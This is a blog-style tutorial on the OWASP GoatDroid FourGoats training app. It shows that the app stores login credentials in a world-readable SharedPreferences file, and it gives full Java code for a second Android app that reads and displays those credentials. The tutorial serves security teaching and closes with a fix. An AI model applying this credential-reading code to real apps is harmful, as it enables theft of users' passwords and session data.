

OK, so let start reviewing the FourGoats App.
First, If you havent done yet, clone the ForGoats repo from github to get the source code.
Try to get an idea of how does the app work, install it in your device and/or emulator and get familiar with the different activities and application flow.
Open the Main activity and check what its doing. Basically, its looking for a sessionToken and if she cannot find it, it will start the Login Activity, otherwise it will take the user to the Home or AdminHome activities.
Lets review the Login activity.
The first thing that looks really weird is:
SharedPreferences prefs = getSharedPreferences("credentials", MODE_WORLD_READABLE);
So the app is storing the user credentials under a World Readable SharedPreferences file that will be accessible in: /data/data/org.owasp.goatdroid.fourgoats/shared-prefs/credentials.xml
So any application installed on your device will be able to read these credentials. Lets write a sample app that retrieve that info and show it on the display. I will hold these apps in gitHub on the following repo: https://github.com/pwntester/OWASP-GoatDroid-Dolphis
Why dolphins?? well because they are not malware, just dolphins LOL
Ok, so create a new Android app in your IDE of choice (I will be using Eclipse) and use the MainActivity onCreate method to get the FourGoats application context and read its sharedPreferences:
@Override
public void onCreate(Bundle savedInstanceState) {
super.onCreate(savedInstanceState);
setContentView(R.layout.activity_main);
Context fourgoatsAppContext = null;
try {
fourgoatsAppContext = createPackageContext("org.owasp.goatdroid.fourgoats", Context.CONTEXT_IGNORE_SECURITY);
} catch (NameNotFoundException e) {
}
SharedPreferences sPrefs = fourgoatsAppContext.getSharedPreferences("credentials", Context.MODE_WORLD_READABLE);
String passwd = sPrefs.getString("password", "");
Map<String, ?> prefs = (Map<String, String>) sPrefs.getAll();
String credentials = "OWASP FourGoats Credentials:\r\n";
for (Map.Entry<String, ?> entry : prefs.entrySet()) {
credentials = credentials + "Key : " + entry.getKey() + " Value : " + entry.getValue().toString() + "\r\n";
}
TextView text = new TextView(this);
text.setText(credentials);
setContentView(text);
}
You can find the app source code here
Ok, so now you can start the fourgoats application and log in with your user.
If you start the sharedPreferences dolphin anytime after, you will be able to access the FourGoats credentials and you will get something like:

Note: The credentials will only be available if the user checked the "Remember me" checkbox
The secure coding recommendations for this vulnerability are quite simple: Dont store sensitive data in any WORLD_READABLE sharedPreference object!
Soon more vulnerabilities :)
Enjoy!